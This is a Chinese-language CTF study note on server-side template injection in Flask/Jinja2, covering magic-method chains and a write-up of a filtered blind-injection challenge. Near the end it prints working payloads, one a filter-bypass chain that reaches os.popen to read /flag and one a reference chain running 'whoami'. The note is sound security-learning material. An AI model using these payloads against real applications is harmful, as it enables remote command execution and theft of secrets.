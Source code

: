```yaml
---
title: SSTI-Python
categories:
- Network_Security
- Web
- SSTI-Python
tags:
- Network_Security
- Web
- SSTI
---
```


# Python 中的 SSTI

## 1. Jinja2

### 1.1 Flask 基础

1. 一些常见的入门网站：

    > https://read.helloflask.com/hello/

2. 常见的 Flask 项目开头代码：

    ```python
    import flask
    app = flask.Flask(__name__)
    @app.route('/')
    def hello():
        return 'Welcome to My Watchlist!'
    ```

3. app，就是：

    > 所有的 Flask 都必须创建程序实例，web 服务器使用 wsgi 协议，把客户端所有的请求都转发给这个程序实例。程序实例是 Flask 的对象，一般情况下用 `app = flask.Flask(__name__)` 实例化。
    > Flask 类只有一个必须指定的参数，即程序主模块或者包的名字，`__name__` 是系统变量，该变量指的是本 py 文件的文件名。
    
4. 然后就是具体路由，路由的方式有很多，可以详见官方文档：

    > https://flask.github.net.cn/quickstart.html#id7

### 1.2 Jinja2 的内容

1. 关键的渲染方法就是 `flask.render_template_string(str)` 和 `flask.render_template(fileName)`。

2. 目前 Jinja2 相关教程中，个人认为写的比较好的就是：

    > https://blog.csdn.net/qq_38154820/article/details/111399386

3. 着重提及一下，**常见的魔术方法要留意**，因为 SSTI 中用的比较多。

4. 大部分给的教程都是通过魔术方法从 `Object` 开始，一层一层找到**命令执行相关**的函数，然后注册函数并执行。

5. 对于某些 CTF 题，可能 Flag 是在当前系统或者环境变量里面，例如 ：
    ```python
    app = flask.Flask(__name__)
    app.config['FLAG'] = os.environ.pop('FLAG')
    ```

    这个时候，就要考虑读取系统的变量。
    常用的魔术方法就是 `__globals__` 来获取函数所在模块命名空间中的**所有变量**。Flask 中的能显示全局变量的有：`url_for()` 和 `get_flashed_messages` 等。（TODO 不懂是怎么发现的）。
    参考链接：

    > https://blog.csdn.net/qq_45290991/article/details/120117615

6. Python 中可以使用 `魔术方法名['魔术方法名']` 来代替 `魔术方法名.魔术方法名`。即可以使用：`__init__['globals']` 代替 `__init__.__globals__`。这样某些关键字可以通过字符串拼接来过滤。

### 1.3 一道过滤了很多内容的 SSTI 盲注 - \[2024源鲁杯\]\[Round 1\] Injct

1. 前期测试和 fuzz 了一下，过滤了以下东西：
    ```python
    # " 空格 set print request \u \x [] {{}} _ +
    # 以及大部分的关键字和常见的过滤器
    ```

2. 当时在做的时候，确实没啥思路，能想到的基本都过滤了，fenjing 跑了也没结果。不过当时问了群内的大佬，说是没过滤 `if`  的话其实就要考虑 `if` 的 boolean 注入了。

3. 这题的关键点有两个：

    1. 用 `~` 代替 `+`，详见 Jinja2 官方网站：

        > https://jinja.palletsprojects.com/en/stable/templates/#other-operators
        > ![image-20241029145348099](SSTI-Python/image-20241029145348099.png)

    2. 过滤器 `lipsum|string|list` 结合 `pop` 来获取 `_`，前面的过滤器会返回 `<function generate_lorem_lipsum...` 的数组，通过 `pop(18)` 来获取到 `_`。

4. 这题自己在构造的时候，也是磕磕绊绊，小问题一堆啊。接下来再补充内容：

    1. 由于都是使用的 filter，这就导致 `.方法` 不管用：
        ![image-20241029230425508](SSTI-Python/image-20241029230425508.png)
        ![image-20241029230455187](SSTI-Python/image-20241029230455187.png)
        所以盲注的话，以后不考虑用 `.` 了，可能 filter 后面不支持接 `.`。
    2. 如果获取的对象是 dict 字典，可以用 `.__getitem__(具体 key)`。如果是 list，那就在大致构造完成后，爆破下标 index 吧（因为肯定没有内容回显，所以只能爆破）。

5. 给出这题的关键 PoC：
    `{%if((''|attr((lipsum|string|list).pop(18)*2~'cl'~'ass'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'ba'~'ses'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'getitem'~(lipsum|string|list).pop(18)*2)(0)|attr((lipsum|string|list).pop(18)*2~'subc'~'lasses'~(lipsum|string|list).pop(18)*2)()|attr((lipsum|string|list).pop(18)*2~'geti'~'tem'~(lipsum|string|list).pop(18)*2)(101)|attr((lipsum|string|list).pop(18)*2~'ini'~'t'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'glob'~'als'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'get'~'item'~(lipsum|string|list).pop(18)*2)((lipsum|string|list).pop(18)*2~'buil'~'tins'~(lipsum|string|list).pop(18)*2)|attr((lipsum|string|list).pop(18)*2~'get'~'item'~(lipsum|string|list).pop(18)*2)('ev'~'al')((lipsum|string|list).pop(18)*2~'imp'~'ort'~(lipsum|string|list).pop(18)*2)('o'~'s')|attr('pop'~'en')('head$IFS$9-c$IFS$91$IFS$9/flag').('read')())=='Y')%}EndlessShw{%endif%}`
    参考以下 PoC：
    `''.__class__.__bases__[0].__subclasses__()[101].__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__')('os').popen("whoami").read()`
